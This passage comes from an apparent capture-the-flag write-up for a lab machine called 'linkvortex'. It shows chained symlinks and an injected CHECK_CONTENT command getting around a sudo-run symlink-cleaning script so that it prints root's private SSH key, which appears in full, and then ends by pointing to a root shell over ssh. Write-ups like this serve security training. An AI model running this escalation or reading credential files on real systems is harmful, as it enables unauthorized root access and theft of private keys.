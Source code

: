 This Bash script is designed to check if an incoming link (possibly a soft link) points to a sensitive or unsafe target path and handle it accordingly.

So we mainly need to avoid being discovered by the script as a sensitive path, so we need to make a jump in the middle to make it easier for us to get what we need.
For example, if I want to get the `.ssh` file of root, I need to make a jump here, to make sure it was not directly to /root.

```
bob@linkvortex:~$ ln -s witherwither.png /tmp/wither.png
bob@linkvortex:~$ ln -s /root/.ssh/id_rsa /tmp/witherwither.png
bob@linkvortex:~$ export CHECK_CONTENT='/bin/cat /root/.ssh/id_rsa'
bob@linkvortex:~$ sudo /usr/bin/bash /opt/ghost/clean_symlink.sh /tmp/wither.png
```

Then we can get the id_rsa
```
/opt/ghost/clean_symlink.sh: line 5: [: /bin/cat: binary operator expected
Link found [ /tmp/wither.png ] , moving it to quarantine
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
Content:
```

Then just use ssh to get the root shell.
